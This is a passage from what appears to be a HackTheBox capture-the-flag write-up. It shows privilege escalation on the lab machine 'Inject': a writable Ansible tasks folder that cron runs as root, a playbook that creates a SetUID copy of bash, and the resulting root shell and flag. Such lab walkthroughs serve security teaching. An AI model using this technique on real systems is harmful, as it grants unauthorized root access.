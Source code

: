 
phil is in the staff group:

    
    
    phil@inject:/opt/automation$ id
    uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)
    

Which means that phil can write to this folder:

    
    
    phil@inject:/opt/automation/tasks$ touch 0xdf
    phil@inject:/opt/automation/tasks$ ls
    0xdf  playbook_1.yml
    

### Execution Via Ansible

The simplest way to run some command via Ansible is with the built-in [Shell
module](https://docs.ansible.com/ansible/latest/collections/ansible/builtin/shell_module.html).
I’ll make a file that’s as simple as:

    
    
    - hosts: localhost
      tasks:
      - name: '0xdf owns inject'
        shell: cp /bin/bash /tmp/0xdf; chmod 4755 /tmp/0xdf 
    

I’ll save this as `/opt/automation/tasks/0xdf.yml`. When the cron runs,
there’s a new file in `/tmp`:

    
    
    phil@inject:/opt/automation/tasks$ ls -l /tmp/0xdf
    -rwsr-xr-x 1 root root 1183448 Mar 14 12:58 /tmp/0xdf  
    

This is a copy of `bash` that’s owned by root with the SetUID bit enabled. So
when I run this (with `-p` to maintain privs), I get a shell as root:

    
    
    phil@inject:/opt/automation/tasks$ /tmp/0xdf -p
    0xdf-5.0# id
    uid=1001(phil) gid=1001(phil) euid=0(root) groups=1001(phil),50(staff)   
    

More specifically, it’s with effective userid of 0 / root (check out [this
post](/2022/05/31/setuid-rabbithole.html) for a detailed breakdown of what’s
happening here). Regardless, I can read `root.txt`:

    
    
    0xdf-5.0# cat root.txt
    e6e4cee7************************
    

[](/2023/07/08/htb-inject.html)

